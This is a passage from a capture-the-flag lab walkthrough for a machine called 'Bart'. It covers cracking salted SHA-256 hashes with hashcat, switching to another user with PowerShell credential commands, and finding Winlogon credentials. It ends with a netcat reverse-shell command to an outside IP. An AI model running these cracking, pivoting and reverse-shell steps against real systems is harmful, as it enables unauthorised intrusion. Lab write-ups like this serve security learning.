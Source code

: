 A few commands later, and we've got some hashes:
![Image](/assets/bart/024.png)

There's another file in the `/includes` folder that talks about using a salt for secuirty reason: `8h@tr-waswe_aT#9TaCHuPhU`. Knowing that, we will need to append the salt we found to the end of the hashes we found:
```
harvey  faeff13072fffdb78ec3b08427678f18295ee28b8b0befc63eea2135eee85df3:8h@tr-waswe_aT#9TaCHuPhU
bobby   e15929d8ce341f2dfa07ac7a0b6f32379e43868631f2aebc05a3a97b235d6dcc:8h@tr-waswe_aT#9TaCHuPhU
daniel   f7dbfae1e05efda233b872e9b7f709d3a0f1b042813be01d7e5b9e9788c7c801:8h@tr-waswe_aT#9TaCHuPhU
```

To crack the hashes I'll be using 'HashCatGUI':
```
hashcat64.exe -a 0 -m 1400 3 "hash.txt" "wordlist.txt"
```

Harvey was the only hash that gave back a password when cracked:
![Image](/assets/bart/025.png)

Now can use the password to login as `h.potter`. Here are the powershell commands that need to be ran to switch users:
```
C:\inetpub\wwwroot\internal-01\log>powershell.exe
powershell.exe
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

Cannot load PSReadline module.  Console is running without PSReadline.
PS C:\inetpub\wwwroot\internal-01\log> 
PS C:\inetpub\wwwroot\internal-01\log> $username = 'BART\h.potter' 
PS C:\inetpub\wwwroot\internal-01\log> $securePassword = ConvertTo-SecureString -AsPlainText -Force 'Password1'
PS C:\inetpub\wwwroot\internal-01\log> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword 
PS C:\inetpub\wwwroot\internal-01\log> Enter-PSSession -ComputerName localhost -Credential $credential

[localhost]: PS C:\Users\h.potter\Documents> whoami
whoami
bart\h.potter
```

You'll need to first switch to a powershell session like in the above screenshot, or the following commands above wont work. We could grab the flag right now, but i'd rather just get out of this horrible powershell session:
![Image](/assets/bart/026.png)  
![Image](/assets/bart/027.png)

# Privesc
After a decent amount of enumeration, I was able to find creds used by Winlogon:  
![Image](/assets/bart/028.png)  
Password: `3130438f31186fbaf962f407711faddb`


[localhost]: PS C:\Users\Administrator\Documents> cmd.exe /c "C:\inetpub\wwwroot\internal-01\log\nc.exe 10.10.14.21 3333 -e cmd.exe"